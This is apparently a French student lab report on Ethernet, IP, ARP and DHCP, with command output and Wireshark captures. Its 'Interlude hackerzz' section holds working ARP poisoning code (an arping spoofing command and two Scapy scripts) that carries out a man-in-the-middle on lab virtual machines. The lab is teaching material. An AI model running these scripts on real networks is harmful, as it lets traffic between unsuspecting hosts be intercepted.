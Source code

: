 # TP2 : Ethernet, IP, et ARP
# I. Setup IP
🌞 **Mettez en place une configuration réseau fonctionnelle entre les deux machines**
```
$ sudo ip addr add 10.10.10.2/22 dev enp3s0
```
```
$ ip a

2: enp3s0:
    link/ether c0:18:50:0e:cb:bb
    inet 10.10.10.2/22
```
```
$ sipcalc 10.10.10.2/22

-[ipv4 : 10.10.10.2/22] - 0

[CIDR]
Network address		- 10.10.8.0
Network mask		- 255.255.252.0
Broadcast address	- 10.10.11.255
```
🌞 **Prouvez que la connexion est fonctionnelle entre les deux machines**
```
$ ping 10.10.10.3

PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=128 time=2.47 ms
64 bytes from 10.10.10.3: icmp_seq=2 ttl=128 time=1.27 ms
64 bytes from 10.10.10.3: icmp_seq=3 ttl=128 time=1.33 ms
64 bytes from 10.10.10.3: icmp_seq=4 ttl=128 time=1.11 ms
^C
--- 10.10.10.3 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 1.105/1.542/2.471/0.542 ms

```
🌞 **Wireshark it**
 - Ping : type 8, code 0
 - Pong : type 0, code 0

[Paquets ICMP](./Trames/ping.pcapng)
# II. ARP my bro
🌞 **Check the ARP table**
```
$ ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 
10.10.10.3 dev enp3s0 lladdr e4:a8:df:c1:f9:9d STALE 
```
- MAC de la gateway : 00:c0:e7:e0:04:4e
- MAC du binôme : e4:a8:df:c1:f9:9d

🌞 **Manipuler la table ARP**
```
$ sudo ip n flush all  
```
```
$  ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 

```
```
$ ping 10.10.10.3
```
```
$ ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 
10.10.10.3 dev enp3s0 lladdr e4:a8:df:c1:f9:9d REACHABLE 

```
🌞 **Wireshark it**

[Trames ARP](./arp.pcapng)

# II.5 Interlude hackerzz
## 1 - ARP poisoning
- Eve :
```
$ ip a

3: eth1:
    link/ether 08:00:27:be:50:e2
    inet 192.168.56.104/24
```
- Alice :
```
$ ip a

2: enp0s8:
    link/ether 08:00:27:ff:10:b8
    inet 192.168.56.102/24
```
- Bob : 
```
$ ip a

2: enp0s8:
    link/ether 08:00:27:c6:94:50
    inet 192.168.56.103/24

$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE
```
- Depuis Eve : 
```
$ sudo sysctl net.ipv4.ip_nonlocal_bind=1

$ sudo arping -c 1000000 -U -S 192.168.56.102 -I eth1 192.168.56.103
```
- Depuis Bob : 
```
$ ip n s

192.168.56.102 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
```
[Pings](./arp_poisoning_1_ping.pcapng)
## 2 - Man in the middle
- ARP poisoning (arp_poisoning.py) : 
``` python 
from scapy.all import *

while 1:
    send(ARP(pdst = "192.168.56.102", psrc = "192.168.56.103", hwsrc = "08:00:27:be:50:e2"))
    send(ARP(pdst = "192.168.56.103", psrc = "192.168.56.102", hwsrc = "08:00:27:be:50:e2"))

```
- Man in the middle (mitm.py) : 
``` python
from scapy.all import *

# modifie et envoie les packets
def changer_dst(packet):
    if packet[Ether].dst == "08:00:27:be:50:e2": # si le mac du destinataire est celui d'eve
        # modifie l'adresse mac du destinataire en fonction de l'IP
        packet[Ether].dst = "08:00:27:ff:10:b8"*(packet[IP].dst == "192.168.56.102") + "08:00:27:c6:94:50"*(packet[IP].dst == "192.168.56.103")
        packet[Ether].src = "08:00:27:be:50:e2" # modifie l'adresse mac de l'expéditeur
        sendp(packet)

# Intercepte les packets
sniff(iface="eth0", filter = "icmp and host 192.168.56.103 and host 192.168.56.102", prn = changer_dst)

```
- Alice et Bob : 
```
[alice@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
```
```
[bob@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE
```
- Eve : 
```
sudo python Desktop/arp_poisoning.py
```
- Alice et Bob : 
```
[alice@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
192.168.56.104 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.103 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE

```
```
[bob@localhost ~]$ ip n s
192.168.56.100 dev enp0s8 lladdr 08:00:27:90:83:f3 STALE
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
192.168.56.102 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.104 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
```
[Trames ARP poisoning](./arp_poisoning_py.pcapng)
- Eve : 
```
sudo python Desktop/mitm.py
```
- Alice et Bob : 
```
[alice@localhost ~]$ ping 192.168.56.103 -c 3

PING 192.168.56.103 (192.168.56.103) 56(84) bytes of data.
64 bytes from 192.168.56.103: icmp_seq=1 ttl=64 time=74.3 ms
64 bytes from 192.168.56.103: icmp_seq=2 ttl=64 time=68.1 ms
64 bytes from 192.168.56.103: icmp_seq=3 ttl=64 time=45.6 ms

--- 192.168.56.103 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 45.616/62.655/74.280/12.312 ms
```
[Pings d'Alice](./alice_pings.pcapng)
```
[bob@localhost ~]$ ping 192.168.56.102 -c 3

PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.
64 bytes from 192.168.56.102: icmp_seq=1 ttl=64 time=50.9 ms
64 bytes from 192.168.56.102: icmp_seq=2 ttl=64 time=62.3 ms
64 bytes from 192.168.56.102: icmp_seq=3 ttl=64 time=59.0 ms

--- 192.168.56.102 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 50.900/57.393/62.259/4.777 ms
```
[Pings de Bob](./bob_pings.pcapng)
# III. DHCP you too my brooo

🌞 **Wireshark it**

[Trames DHCP](./dhcp.pcapng)
- IP à utiliser : 
    Destinataire : 10.33.16.230
- Adresse IP de la passerelle réseau : 
    trame 2, option 3, routeur (10.33.19.254)
- Adresse d'un serveur DNS : 
    trame 2, option 6, Domaine Name Server (8.8.8.8 ; 8.8.4.4 ; 1.1.1.1)
